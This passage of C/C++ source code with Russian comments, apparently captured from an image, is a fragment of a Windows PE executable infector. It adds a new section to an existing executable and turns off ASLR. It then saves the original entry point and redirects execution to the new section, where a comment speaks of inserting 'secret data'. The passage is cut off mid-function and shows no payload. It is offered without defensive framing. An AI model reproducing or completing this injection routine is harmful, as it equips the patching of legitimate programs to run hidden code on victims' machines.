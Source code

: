     /*
    0xE00000E0 = IMAGE_SCN_MEM_WRITE |
                 IMAGE_SCN_CNT_CODE  |
                 IMAGE_SCN_CNT_UNINITIALIZED_DATA  |
                 IMAGE_SCN_MEM_EXECUTE |
                 IMAGE_SCN_CNT_INITIALIZED_DATA |
                 IMAGE_SCN_MEM_READ
    */
 
    SetFilePointer(file, SH[sCount].PointerToRawData + SH[sCount].SizeOfRawData, NULL, FILE_BEGIN);
    // устанавливаем конец файла на последнюю секции + размер файла
    SetEndOfFile(file);
    // теперь меняем размер образа, чтобы он соответствовал нашим модификациям,
    // добавлением новой секции. Размер теперь стал больше
    NT->OptionalHeader.SizeOfImage = SH[sCount].VirtualAddress + SH[sCount].Misc.VirtualSize;
    // так как мы добавляем новую секцию, то меняем их количество
    NT->FileHeader.NumberOfSections += 1;
    SetFilePointer(file, 0, NULL, FILE_BEGIN);
    // и в конечном итоге записываем результат наших модификаций в файл
    WriteFile(file, pByte, fileSize, &dw, NULL);
    CloseHandle(file);
    return 1;
}
 
bool AddCode(char *filepath){
    HANDLE file = CreateFile(filepath, GENERIC_READ | GENERIC_WRITE, 0, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
    if (file == INVALID_HANDLE_VALUE){
        CloseHandle(file);
        return false;
    }
    DWORD filesize = GetFileSize(file, NULL);
    BYTE *pByte = new BYTE[filesize];
    DWORD dw;
    ReadFile(file, pByte, filesize, &dw, NULL);
    PIMAGE_DOS_HEADER dos = (PIMAGE_DOS_HEADER)pByte;
    PIMAGE_NT_HEADERS nt = (PIMAGE_NT_HEADERS)(pByte + dos->e_lfanew);
 
    // ОЧЕНЬ ВАЖНО
    // ЕСЛИ ВКЛЮЧЕН ASLR - ЭТО РАБОТАТЬ НЕ БУДЕТ !!!
    // Решение: Отключайте ASLR =))
    nt->OptionalHeader.DllCharacteristics &= ~IMAGE_DLLCHARACTERISTICS_DYNAMIC_BASE;
 
    // так как мы добавили новую секцию, она будет последней
    // поэтому мы должны добраться до последней секции и вставить наши секретные данные :)
    PIMAGE_SECTION_HEADER first = IMAGE_FIRST_SECTION(nt);
    PIMAGE_SECTION_HEADER last = first + (nt->FileHeader.NumberOfSections - 1);
 
    SetFilePointer(file, 0, 0, FILE_BEGIN);
    //сохраняем оригинальную точку входа
    DWORD OEP = nt->OptionalHeader.AddressOfEntryPoint + nt->OptionalHeader.ImageBase;
 
    // мы меняем оригинальную точку входа на адрес последней секции
    nt->OptionalHeader.AddressOfEntryPoint = last->VirtualAddress;
    WriteFile(file, pByte, filesize, &dw, 0);
 